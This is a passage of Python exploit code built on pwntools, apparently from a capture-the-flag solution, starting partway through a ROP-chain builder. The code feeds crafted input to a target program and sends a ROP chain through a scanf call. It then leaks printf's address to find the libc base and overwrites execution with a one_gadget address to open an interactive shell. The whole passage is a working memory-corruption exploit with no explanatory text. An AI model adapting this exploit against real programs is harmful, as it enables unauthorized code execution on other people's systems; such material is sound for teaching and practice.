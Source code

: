 ```python
    # Set value to registers
    rbx = 0x0
    ropchain += p64(gadget_pop_rbx_) + p64(rbx) + p64(0) + p64(target_addr) + 3*p64(0)
    # Call the one gadget !
    ropchain += p64(gadget_indirect_call)

    # Set 0 to match one gadget condition
    ropchain += p64(0)*256

    return ropchain

def exploit(p, elf, libc):

    # Access to scanf after the good calculation
    p.recvuntil(b'of recources: ')
    p.sendline('66 -3')

    p.recvuntil(b'> ')
    p.sendline('3')

    # Now we can trigger scanf
    p.recvuntil(b'problem?\n> ')

    # Create ROP chain
    ropchain = get_ropchain(elf)

    # Send ROP chain
    p.sendline(ropchain)

    # Read data to get printf addr inside libc
    time.sleep(4.0) # wait before puts execute

    data = p.recv()
    
    elms = data.split(b'\n')

    x = elms[1]

    assert(len(x) < 8)
    while len(x) < 8:
        x += b'\x00'
    
    leak = unpack('Q', x)[0]
    print('leak printf@0x%x' % leak)

    libc_base = leak - libc.symbols['printf']
    print('leak libc@0x%x' % libc_base)

    # Send one gadget inside the new scanf call

    one_gadget = libc_base + 0x4f432 
    print('one_gadget @0x%x' % one_gadget)

    p.sendline(p64(one_gadget))

    # Enjoy the shell !
    p.interactive()
```

